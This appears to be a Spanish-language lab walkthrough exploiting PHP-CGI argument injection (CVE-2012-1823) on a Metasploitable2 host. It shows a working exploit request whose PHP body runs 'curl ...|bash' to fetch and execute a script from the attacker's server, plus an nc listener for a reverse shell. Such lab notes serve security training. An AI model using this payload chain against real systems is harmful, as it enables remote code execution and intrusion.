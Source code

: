 ----

## PHP - -CGI 80

Info:  
[https://www.welivesecurity.com/la-es/2012/05/09/grave-vulnerabilidad-php-cgi-parte-i/](https://www.welivesecurity.com/la-es/2012/05/09/grave-vulnerabilidad-php-cgi-parte-i/)

Buscando exploits

Otra forma:  
[https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1212-exploits/cve-2012-1823.py.txt](https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1212-exploits/cve-2012-1823.py.txt)


```
[...]
PHP 5.3.12/5.4.2 - CGI Argument Injection (Metasploit)                                               | php/remote/18834.rb
PHP 5.5.9 - 'zend_executor_globals' 'CGIMode FPM WriteProcMemFile' disable_functions Bypass / Load D | php/webapps/38127.php
PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection                                                      | php/remote/18836.py
PHP PHP/fi 2.0 - Directory Traversal                                                                 | cgi/remote/20567.txt
phpBB 2.0.10 - Remote Command Execution (CGI)                                                        | php/webapps/673.pl
[...]
```

![cgi](../assets/imgs/metasploitable2/cgi.png)

```
❯ python cgi.py 192.168.0.100 80
POST /?-dallow_url_include%3don+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.0.100
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

<?php system('curl http://192.168.0.107:8000/test|bash'); ?>
[...]

───────────────────────────────────────────────────────────────────────────
❯ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.0.100 - - [13/Oct/2021 12:14:59] "GET /test HTTP/1.1" 200 -


───────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
```